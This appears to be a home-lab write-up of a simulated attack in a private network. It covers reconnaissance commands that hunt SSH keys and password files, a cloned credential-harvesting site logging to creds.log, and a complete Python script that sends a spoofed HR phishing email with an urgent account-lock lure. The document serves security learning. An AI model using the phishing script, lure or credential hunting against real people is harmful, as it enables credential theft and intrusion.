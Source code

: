 Initial Access is the first phase in a cyber-attack where adversaries seek to establish a foothold in the target network or system. It is the gateway for attackers to gain entry, enabling them to progress through subsequent stages of an attack, such as privilege escalation, lateral movement, and data exfiltration. I have already established initial access with this Ubuntu server by cracking the weak password. 

Now I need to perform additional reconnaissance on this device to see what type of device it is, what services are running and perhaps if there’s any connection to other devices. 

- first, I will find out what OS version and distribution the machine I accessed is using
	- cat /etc/os-release
- the hostname of this device
	- hostname
- the IP address of the device
	- ip a
- I can also look for any active services, which could be potential attack vectors
	- netstat -tuln
- I can also try to find configuration files, user credentials, and other sensitive information
	- ls -la /home (check user home directories)
	- ls -la /etc (check configuration files)
	- ls -la ~/.ssh/ (view SSH keys and known hosts)
	- find / -name “password” 2>/dev/null (search for any files containing the password string)

I see simulated SMTP 1025 is listening, perhaps this device may act as some sort of email relay, server, or something to do with email.
Most servers will not have SMTP running unless explicitly enabled.
I can also see I am in the 10.0.0.0/24 range, a private IP address range, used in Local Area Network (LAN)s.
Based on the nmap scans, I can see there is a device called linux-client running on 10.0.0.101. 

![initial information](images/initialInfo.png)

- again the SSH protocol is running, but if I attempt to find the password the same way as before, I get nothing
- this means the password for this connection os not in the rockyou.txt file, so i need to try something else
- I know that MailHog runs on port 1025, and HTTP server runs on 8025

- I searh on google how to query the MailHog API to retrieve messages
	- `curl http://10.0.0.8:8025/api/v2/messages`

![curl MailHog result](images/curlMailHog.png)

## Sending the phishing email

- looking into the first email, I can see there’s an email address, janed@linux-client 
- I am going to send an email to this user, impersonating the email server (since it’s trusted in the network) and will likely route directly to the inbox. 
- this phishing email will direct the recipient to a fake web site where they are prompted to enter their username and password, the credentials will be logged on the attacker machine
- for the web site I used a GitHub project

- I go to /var/www/html and use `git clone https://github.com/collinsmc23/projectsecurity-e101` to download the website project
- I make a new logging file to log the captured credentials, and set permissions on this file:
	- `sudo touch /var/www/html/creds.log`
	- `sudo chmod 666 /var/www/html/creds.log`
- then I can start the apache2 webservice:
	- `sudo service apache2 start`

![fake website interface](images/fakeSite.png)

- I generated the message with ChatGPT
- then, as root in the project-x-corp-svr, i created a python program for sending the email:
```
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg["Subject"] = "Update Password!"
msg["From"] = "project-x-hrteam@corp.project-x-dc.com"
msg["To"] = "janed@linux-client"

# Plain text version (fallback)
msg.set_content("Hey Jane! This is HR, make sure to update your password info.")

# HTML version
html_content = """
<html>
  <body>
    <p>Hey Jane!<br>
We noticed an unusual login attempt on your account, and for your security, we have temporarily locked access. To restore access, please verify your account credentials within the next 24 hours. Failure to do so may result in permanent restrictions on your account.
To verify your credentials, please click the link below:</p>
<a href='http://10.0.0.50'>Verify My Account</a>
<p>For assistance, please contact our support team at support@company.com.
Thank you for your prompt attention to this matter.
Best regards,
ProjectX Security Team
    </p>
  </body>
</html>
"""

msg.add_alternative(html_content, subtype='html')

# Send the email
with smtplib.SMTP("localhost", 1025) as server:
    server.send_message(msg)
```

If Jane were to open this email on a regular email client, such as Gmail, the email would use the “hyperlink” feature, which makes the address concealed. In this scenario, Jane would likely know this is a phishing email just by looking at the contents in <a href>.
- after all this, I can send the email to Jane
	- `sudo python3 send_email.yp`

![email received by jane](images/receivedEmail.png)

## What the recepient of the email sees

- now, as janed, first I need to run the script for checking the inbox:
	- `cd /home && ./email_poller.sh &`

![email received by jane](images/janeEmail.png)

- now if janed enters her credentials in the fake website, they will appear on the attacker's machine
- Based on my previous nmap scans, I know that the host 10.0.0.101 has SSH up and running, let’s attempt to log in
	- `ssh janed@10.0.0.101` => success

